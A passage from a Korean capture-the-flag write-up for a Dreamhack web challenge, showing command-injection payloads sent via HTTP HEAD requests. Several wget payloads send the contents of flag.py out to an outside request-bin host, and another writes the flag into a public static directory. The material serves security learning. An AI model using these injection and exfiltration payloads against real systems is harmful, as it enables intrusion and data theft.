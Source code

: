 ```

위 명령어가 시스템 함수에 전달되도록 `HEAD` 메서드를 통해 웹 서버에 전달하면 된다. 그럼 아래와 같이 작성할 수 있다.

```
HEAD /?cmd=wget+https://dzmnkob.request.dreamhack.games+--method=POST+--body-data="$(cat+flag.py)" HTTP/1.1
```

위와 같이 작성한 후 전달하면 아래와 같이 `cat flag.py`의 실행 결과가 원격 서버로 잘 전달되는 것을 확인할 수 있다.

<img width="583" alt="image" src="https://github.com/user-attachments/assets/a77e34f5-f755-4a16-bb4a-3f30f8e5cdc8">

마찬가지로 여기서도 `$()` 대신 ``` ` ```을 써도 되고, `""`으로 `cat flag.py`의 실행 결과를 감싸줘야한다.

### 4. `wget` : 원격 서버에 GET 메서드로 `cat flag.py`의 결과를 파라미터로 전송

`wget` 명령어는 `--method`를 정해주지 않으면, 기본적으로 `GET` 메서드를 수행한다.

따라서, 아래와 같은 명령어를 전달해주면 된다.

```
wget https://dzmnkob.request.dreamhack.games/?query="$(cat flag.py)"
```

위 명령어가 시스템 함수에 전달되도록 `HEAD` 메서드를 통해 웹 서버에 전달하면 된다. 그럼 아래와 같이 작성할 수 있다.

```
HEAD /?cmd=wget+https://dzmnkob.request.dreamhack.games/?query="$(cat+flag.py)" HTTP/1.1
```

이렇게 전달하면, 아래와 같이 QueryString에 실행 결과가 URL 인코딩되어 담겨오는 것을 확인할 수 있다.

<img width="870" alt="image" src="https://github.com/user-attachments/assets/244941fe-6b04-4696-8b0f-644d0de0ded4">

해당 값을 URL 디코딩해보면 똑같이 플래그 문자를 아래와 같이 얻을 수 있다.

<img width="600" alt="image" src="https://github.com/user-attachments/assets/004127bd-cb3e-450e-89b3-291b0949390e">

# 2. Static File Directory

`flask`를 포함한 다양한 프레임워크 또는 웹 에플리케이션에서는, 여러 정적 리소스를 다루기 위해 **Static File Directory**로 `/static` 경로를 사용한다.

따라서, `HEAD` 메서드를 통해 아래의 명령어를 전달해준 후, `/static/flag_result.txt`에 접근하면 해당 정적 리소스를 출력할 수 있을 것이다.

```
mkdir static; cat flag.py > static/flag_result.txt
```

위 명령어는 먼저 **Static File Directory`인 `/static` 디렉토리를 만들어주고, 해당 디렉토리의 `flag_result.txt` 파일에 `>` 메타 문자를 통해 `cat flag.py`의 출력결과를 저장해준다.

참고로, `>>`은 파일의 맨끝에 추가해주는 메타 문자이며, `flag_result.txt` 파일이 존재하지 않으면 자동으로 생성해준다.

그럼 아래와 같은 페이로드를 전달해주면 된다.

```
HEAD /?cmd=mkdir+static;cat+flag.py>static/flag_result.txt HTTP/1.1
```

페이로드를 전달해준 후, `http://host3.dreamhack.games:10383/static/flag_result.txt` URL로 들어가게 되면, **Static File Directory**에 존재하는 파일에 접근하기 때문에, 
```